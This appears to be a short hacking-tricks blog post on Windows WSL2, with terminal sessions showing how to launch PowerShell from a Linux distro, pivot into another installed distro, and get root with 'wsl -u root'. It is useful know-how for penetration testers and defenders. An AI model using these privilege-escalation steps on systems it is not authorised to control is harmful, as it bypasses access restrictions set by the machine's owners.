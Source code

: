 ```yaml
---
title: Tricks
date: 2025-07-23
categories: [TRICKS]
tags: [tricks]
author: saber
description: A couple of hacking tricks
---
```


# Windows/WSL2

## Pivoting between WSL2 distros

You can access your Windows filesystem from your WSL2 distro (through /mnt/<disk>). You can also execute commands. For example `/mnt/c/Window/System32/cmd.exe` will spawn you a CMD...
You can abuse this to pivot between several WSL2 distributions:
```bash
user@workstation:~$ # We're in Ubuntu
user@workstation:~$ /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe /nologo
PS Microsoft.PowerShell.Core\FileSystem::\\wsl.localhost\Ubuntu\home\user> # We're now on Windows/PowerShell, we can list distros
PS Microsoft.PowerShell.Core\FileSystem::\\wsl.localhost\Ubuntu\home\user> wsl --list
Windows Subsystem for Linux Distributions:
archlinux (Default)
Ubuntu
PS Microsoft.PowerShell.Core\FileSystem::\\wsl.localhost\Ubuntu\home\user> wsl -d archlinux
~ % # We're now in Arch Linux
~ %
```

## Get root on WSL distro

The trick from above can be used as well to get root:
```bash
% whoami
user
~ % /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe /nologo
PS Microsoft.PowerShell.Core\FileSystem::\\wsl.localhost\archlinux\home\user> wsl -u root
[root@workstation user]# # Pwned...
[root@workstation user]#
```
